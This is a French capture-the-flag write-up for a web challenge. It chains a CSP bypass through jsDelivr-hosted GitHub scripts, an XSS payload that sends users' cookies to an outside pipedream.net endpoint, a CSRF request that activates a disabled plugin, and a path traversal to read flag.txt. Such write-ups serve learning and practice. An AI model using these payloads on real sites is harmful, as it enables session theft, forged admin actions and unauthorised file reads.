 # Plugin Again

Sur le site on peut écrire des commentaires sur les postes et en regardant un peu les headers on apprends que le site accepete les scripts venant d'un domaine en particulier : `jsdelivr.com`
En se rendant sur `https://www.jsdelivr.com/` on apprend qu'on peut directement faire passer des fichiers de Github :
- De cette manière : `https://cdn.jsdelivr.net/gh/user/repo@version/file`
- Exemple : `https://cdn.jsdelivr.net/gh/darkinfern010/testXSS@main/1.js`

Dans un premier temps on peut essayer de récupérer des cookies des users connecté, puisqu'on peut le voir que Jhonny et Admin sont connectés sur la platforme :
```javascript
function xssPayload() {
  window.location="https://eohab6sr70d2skn.m.pipedream.net/?c"+document.cookie
}

console.log('XSS payload executed');
xssPayload();
```

Et on récupère effectivement un premier cookie de session, en l'utilisant on se connecte en tant que Jhonny.
On a accès à 2 fonctionnalité qui vont être intéressantes, les messages privés et la page plugins.

Dans un premier temps j'ai cru qu'il fallait se connecter en tant qu'admin, alors j'ai mp l'admin avec la même payload qu'avant mais en me connectant j'ai vu qu'on n'avais pas accès à beaucoup plus de choses.
Dans la page plugins on voit qu'un plugin est désactivé et qu'on a pas les droits pour l'activer, alors on va devoir CSRF.
Pour ce faire on va mp l'admin une nouvelle fois mais avec cette payload (toujours gràceà jsDelivr) :
```javascript
location.href = "/activate-plugin/1"
```

Le plugin est bien activé on peut alors passer à la denrière étape, en faisant un peu d'osint on retrouve la template sur [Github](https://github.com/jhonnyCtfSysdream/JhonnyTemplater)
Et dans le fichier `new_post.html` on voit qu'on peut choisir un template pour notre post mais le soucis c'est que le template est ouvert dans `__init__.py` avec la fonction `open`.
Alors on change la value d'un template (directement via l'inspecteur ou burp) en `../../flag.txt` au lieu de `funny` :
`<option id="select1" value="funny">Funny</option>`
devient
`<option id="select1" value="../../flag.txt">Funny</option>`

Et le flag s'affiche à l'écran
